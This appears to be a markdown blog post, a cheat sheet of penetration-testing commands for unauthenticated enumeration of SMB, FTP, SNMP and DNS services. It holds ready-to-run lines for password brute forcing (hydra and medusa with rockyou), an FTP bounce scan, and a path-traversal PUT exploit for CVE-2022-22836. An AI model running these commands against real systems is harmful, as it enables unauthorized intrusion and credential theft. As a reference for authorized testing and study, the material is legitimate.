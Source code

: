 ```yaml
---
author: pl4int3xt
layout: post
title: Active Directory Enumeration
date: '2023-11-13 05:53:29 +0300'
cover: img/cover_images/44.png
description: "Active directory Enumeration 101"
categories: [Active Directory, Enumeration]
---
```


## Enumeration with No creds
### Smb enumeration
```bash
smbmap -H <ip>
smbmap -u 'guest' -p '' -H <ip>
smbclient -L <ip> -u ''
smbclient //<ip>/<share> -c 'recurse;ls'
cme smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt
cme smb 10.10.10.178 -u 'a' -p ''
rpcclient -U '' -N <ip>
enumdomusers
querydispinfo
hydra -L user.list -P password.list smb://10.129.42.197
scanner/smb/smb_login
```
### FTP enumeration
```bash
ftp <IP>
nc -nv <IP> 21
wget -m --no-passive ftp://anonymous:anonymous@<target>
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142
```
[CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)
```bash
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "Payload" --path-as-is https://<IP>/../../../../../../reverse
```
#### FTP bounce back
```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
### SNMP enumeration
```bash
snmpwalk -v2c -c public 10.129.14.128
onesixtyone -c /opt/useful/SecLists/Discovery/SNMP/snmp.txt 10.129.14.128
braa public@10.129.14.128:.1.3.6.*
```
### DNS enumeration
```bash
fierce --domain zonetransfer.me
dig +short ns zonetransfer.me
dig +short any zonetransfer.me
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
dnsenum --dnsserver 10.129.14.128 --enum -p 0 -s 0 -o subdomains.txt -f /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt inlanefreight.htb
gobuster dns -q -r "d.ns.facebook.com" -d "facebook.com" -w "${WORDLIST}" -p ./patterns.txt -o "gobuster_${TARGET}.txt"
```
#### Domain Takeovers & Subdomain Enumeration